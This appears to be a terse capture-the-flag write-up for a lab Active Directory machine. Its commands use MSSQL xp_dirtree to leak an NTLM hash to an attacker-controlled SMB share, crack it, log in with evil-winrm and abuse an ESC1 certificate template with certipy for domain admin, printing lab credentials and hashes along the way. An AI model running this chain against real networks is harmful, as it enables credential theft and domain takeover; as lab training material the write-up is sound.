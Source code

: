 in smb Public we found file SQL SERVER PROCEDURE
![[Pasted image 20250212213204.png]]

![[Pasted image 20250212211617.png]]
PublicUser:GuestUserCantWrite1
we connecting into mssql:
sqsh -S 10.10.11.202 -U PublicUser -P 'GuestUserCantWrite1' -h
getting hash:
1> EXEC xp_dirtree '\\10.10.14.14\share\'
2> go
result:
sql_svc::sequel:aaaaaaaaaaaaaaaa:4d30a158f3c71b691f3b3ffbd6f31339:0101000000000000004c8276837ddb01228bd5e66d167d93000000000100100055005a00530078005800620068007a000300100055005a00530078005800620068007a00020010004f005a0044007100670069007a005a00040010004f005a0044007100670069007a005a0007000800004c8276837ddb0106000400020000000800300030000000000000000000000000300000dec1f7c9c2bec7477652cb12cde11a01ad84eb9a38472e752daf91fce7b2eeca0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310034000000000000000000

cracked with hashcat:
REGGIE1234ronnie

![[Pasted image 20250212212545.png]]

![[Pasted image 20250212224137.png]]
we connect in host by using evil-winrm with credentials for sql_svc
findings data in sql logs:
C:\SQLServer\Logs> cat ERRORLOG.BAK
![[Pasted image 20250212235905.png]]
Ryan.Cooper NuclearMosquito3
![[Pasted image 20250212235827.png]]
we found ryan cooper is member of ![[Pasted image 20250213125007.png]]

certipy find -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -vulnerable -enabled
result:
ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -template UserAuthentication -upn administrator@sequel.htb -dns dc.sequel.htb
certipy auth -pfx administrator_dc.pfx -dc-ip 10.10.11.202
Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
